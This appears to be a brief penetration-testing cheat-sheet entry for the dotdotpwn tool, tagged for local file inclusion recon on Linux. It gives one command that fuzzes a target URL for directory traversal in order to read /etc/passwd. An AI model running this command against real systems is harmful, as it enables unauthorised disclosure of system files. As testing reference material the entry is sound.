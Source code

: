 # dotdotpwn

% lfi, local file inclusion

#plateform/linux #target/remote #cat/RECON


## dotdotpwn - recon linux
```
dotdotpwn -m http-url  -u http://<url>=TRAVERSAL -M GET -k root -f /etc/passwd  -d <depth> -b -q
```
